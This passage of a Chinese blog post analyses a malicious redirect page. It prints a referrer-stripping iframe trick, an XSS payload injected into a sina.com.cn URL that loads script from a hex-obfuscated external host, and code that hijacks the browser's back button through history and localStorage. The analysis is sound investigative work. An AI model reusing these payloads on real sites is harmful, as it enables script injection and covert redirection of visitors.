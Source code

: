     function open_without_referrer(link) {  
        document.body.appendChild(document.createElement("iframe")).src = 'javascript:"<script>top.location.replace(\'' + link + '\')<\/script>"';  
    }  
      
    view("//fenghb1-手动打码.cos.ap-guangzhou.myqcloud.com/1.html?t=" + Math.random());  
    

除此之外，定义了一个PageData变量，但是由于json不完整，会被try捕获而终止，所以没啥用。
不过稍微看了一眼定义的数据里面的url，有一个某浪的url，urldecode后如下：

    
    
    https://手动打码.sina.com.cn/手动打码.html?cond=xss</script><body/hidden><script src=//0x0072.手动打码.手动打码.0x00BF></script><!--&id=44  
    

很明显一个xss![]()

这里用了xss来加载`//0x0072.手动打码.手动打码.0x00BF`，从16进制转化为10进制也就是`//114.手动打码.手动打码.191`，访问了一下页面返回js内容，内容与上述一致。![]()

这个js执行了view函数，请求了`https://fenghb-手动打码.cos.ap-
nanjing.myqcloud.com/1.html?t=随机数`，作用是从给定的URL获取内容，并在新的浏览器窗口中显示这些内容。

继续往下看所请求的`https://fenghb-手动打码.cos.ap-nanjing.myqcloud.com/1.html?t=xxx`

![]()

页面中的`https://hm.baidu.com/hm.js`是百度统计js，用来统计访问页面的人员、次数信息。

另外一个关键js：`https://fenghb1-手动打码.cos.ap-guangzhou.myqcloud.com/js/shua.js`

由于js文件非常大，全部的页面代码和逻辑几乎都在里面，所以这里就不贴完整代码了，会在后面具体分析中贴出相关函数代码，此处简单截几张图：![]()![]()![]()![]()![]()

找到入口代码如下：

    
    
    //中间省略一系列函数  
      
    history.pushState(history.length + 1, "message", window.location.href.split('#')[0] + "#" + new Date().getTime());  
    apiurl = "162.手动打码.手动打码.246";  
      
    //中间省略一系列函数  
      
    if(localStorage.backtime){  
        a = new Date().getTime() - parseInt(localStorage.backtime);  
        a = a / 1000;  
        if(a < 10){  
            fanhui = localStorage.fanhui;  
            if(fanhui){  
                fanhui = parseInt(fanhui) + 1;  
            }else{  
                fanhui = 1;  
            }  
            localStorage.setItem("fanhui", fanhui);  
            jump();  
        }else{  
            localStorage.setItem("fanhui", 0);  
            star();  
        }  
    }else{  
        star();  
    }  
    